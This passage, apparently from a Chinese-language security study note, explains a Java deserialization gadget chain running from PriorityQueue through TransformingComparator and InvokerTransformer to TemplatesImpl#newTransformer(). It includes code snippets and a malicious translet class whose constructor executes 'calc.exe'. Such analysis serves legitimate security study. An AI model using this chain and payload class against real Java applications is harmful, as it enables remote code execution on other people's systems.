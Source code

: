 同样的向TransformingComparator传入恶意Transformer，这次传的是InvokerTransformer，而非transformerChain数组

```java
Comparator comparator = new TransformingComparator(transformer);
```

触发comparator的方式还是实例化PriorityQueue对象

```java
PriorityQueue queue = new PriorityQueue(2, comparator);
queue.add(obj);
queue.add(obj);
```

为什么要传TemplatesImpl的对象obj呢？回想在没有ConstantTransformer初始化对象的情况下，shiro反序列化是依靠TiedMapEntry的构造函数把初始化对象传入key

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206164448132.png)

TiedMapEntry的hashcode调用了getValue，getValue触发lazyMap.get()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206164623593.png)

但是在使用PriorityQueue类时，就无法用到shiro的入口HashMap，自然整条链都用不了。进入templatesImpl对象的newTransformer()入口的方式变为:

`PriorityQueue#Compare()`->`TransformingComparator#transform`->`InvokerTransformer`->`TemplatesImpl#newTransformer()`

只需要compare()时对象为恶意InvokerTransformer

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206160559047.png)



恶意字节码类：

```java
package evil;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public EvilTemplatesImpl() throws Exception {
        super();
        System.out.println("Hello TemplatesImpl");
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

